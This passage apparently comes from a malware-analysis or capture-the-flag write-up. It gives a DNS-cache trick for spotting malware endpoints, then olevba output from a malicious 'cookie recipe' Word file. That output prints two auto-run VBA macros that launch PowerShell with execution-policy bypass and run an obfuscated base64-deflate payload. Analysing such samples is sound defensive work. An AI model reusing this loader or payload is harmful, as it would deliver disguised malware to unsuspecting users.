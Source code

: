 ```
* Microsoft Network Monitor: Displays traffic by each process.

I use this simple trick at work to find domains with dynamic analysis:

1. Clear the Windows DNS cache with `ipconfig /flushdns`.
2. Run the malware.
3. Look at the local DNS cache with `ipconfig /displaydns`.
4. Remove the hardcoded entries by Windows and the `hosts` file.
5. The remaining entries contain the endpoints.
6. ???
7. Profit

After downloading the `docm` file, Windows defender goes haywire.

```
Trojan:Win32/Occamy.C
file: C:\...\CHOCOLATE_CHIP_COOKIE_RECIPE.docm->word/vbaProject.bin
```

We can run `olevba` on it to get the macro. Seems like there are two macros with the same content.

``` basic
olevba 0.53.1 - http://decalage.info/python/oletools
Flags        Filename
-----------  -----------------------------------------------------------------
OpX:MASI---- CHOCOLATE_CHIP_COOKIE_RECIPE.docm
===============================================================================
FILE: CHOCOLATE_CHIP_COOKIE_RECIPE.docm
Type: OpenXML
-------------------------------------------------------------------------------
VBA MACRO ThisDocument.cls
in file: word/vbaProject.bin - OLE stream: u'VBA/ThisDocument'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
(empty macro)
-------------------------------------------------------------------------------
VBA MACRO Module1.bas
in file: word/vbaProject.bin - OLE stream: u'VBA/Module1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Private Sub Document_Open()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
Shell cmd
End Sub

-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: u'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sub AutoOpen()
Dim cmd As String
cmd = "powershell.exe -NoE -Nop -NonI -ExecutionPolicy Bypass -C ""sal a New-Object; iex(a IO.StreamReader((a IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('lVHRSsMwFP2VSwksYUtoWkxxY4iyir4oaB+EMUYoqQ1syUjToXT7d2/1Zb4pF5JDzuGce2+a3tXRegcP2S0lmsFA/AKIBt4ddjbChArBJnCCGxiAbOEMiBsfSl23MKzrVocNXdfeHU2Im/k8euuiVJRsZ1Ixdr5UEw9LwGOKRucFBBP74PABMWmQSopCSVViSZWre6w7da2uslKt8C6zskiLPJcJyttRjgC9zehNiQXrIBXispnKP7qYZ5S+mM7vjoavXPek9wb4qwmoARN8a2KjXS9qvwf+TSakEb+JBHj1eTBQvVVMdDFY997NQKaMSzZurIXpEv4bYsWfcnA51nxQQvGDxrlP8NxH/kMy9gXREohG'),[IO.Compression.CompressionMode]::Decompress)),[Text.Encoding]::ASCII)).ReadToEnd()"" "
```